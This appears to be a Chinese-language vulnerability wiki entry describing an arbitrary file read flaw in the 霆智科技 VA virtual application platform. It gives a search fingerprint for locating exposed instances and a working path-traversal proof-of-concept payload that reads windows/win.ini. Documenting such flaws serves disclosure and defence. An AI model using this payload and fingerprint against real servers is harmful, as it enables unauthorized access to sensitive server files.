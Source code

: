 # 霆智科技 VA虚拟应用平台 任意文件读取漏洞

## 漏洞描述

霆智科技 VA虚拟应用平台 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感信息

## 漏洞影响

<a-checkbox checked>霆智科技 VA虚拟应用平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="EAA益和应用接入系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1683073057116-3fcea542-7aec-4fde-9ad1-ba4ec639c17e.png)

验证POC

```python
/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini
```

![img](/assets/PeiQi-Wiki/img/1683073234358-a1e4cecc-48c7-4509-b2cb-70d0bfaa9fc6.png)